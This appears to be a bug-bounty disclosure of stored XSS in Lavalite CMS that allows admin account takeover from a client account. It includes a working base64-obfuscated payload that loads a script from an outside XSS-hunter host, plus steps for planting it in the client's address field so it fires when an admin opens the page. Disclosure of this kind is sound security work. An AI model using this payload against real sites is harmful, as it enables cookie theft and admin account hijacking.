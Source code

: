 # Description
Admin cookies and other details leading to an account take over to a higher level privilege from a client account of lavalite CMS and other multiple XSS in different pages due to acceptance of unsanitised data .check the permalinks to know more on the pages causing XSS.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC For Account TakeOver
* login to client account and admin account from entirely different browsers or through a private mode.
* In the client account click on settings and update the address column with the blind payload and save the updates made.
* from the admin account move to the end point http://localhost/admin/user/client .
* Booyah!!! XSS triggered.
* other POC's are available at the corresponding PR pages
# PermaLinks
![1](https://user-images.githubusercontent.com/43377443/93658388-cb1d9100-fa58-11ea-823b-2b0068e1f61b.PNG)
![2](https://user-images.githubusercontent.com/43377443/93658389-cc4ebe00-fa58-11ea-8004-5c8469a943f7.PNG)
![3](https://user-images.githubusercontent.com/43377443/93658390-cce75480-fa58-11ea-8a68-1de4c13f2cab.PNG)
* [POC](https://drive.google.com/drive/folders/1QfRhBX54orE65lq6rM33Fchft_gsaMHI?usp=sharing)
* Github PR [ISSUE @ team page](https://github.com/418sec/huntr/pull/691)
* Github PR [issue @ contact creation and management page](https://github.com/418sec/huntr/pull/692)
* Github PR [issue @ roles page](https://github.com/418sec/huntr/pull/694)
* Github PR [issue @ permissions management page](https://github.com/418sec/huntr/pull/695)
* Github PR [issue @ manage blocks page](https://github.com/418sec/huntr/pull/696)
* Github PR [issue @ menu page](https://github.com/418sec/huntr/pull/697)
* Github PR [issue @ index management page](https://github.com/418sec/huntr/pull/705)
* Github PR [issue @ registration page](https://github.com/418sec/huntr/pull/693)

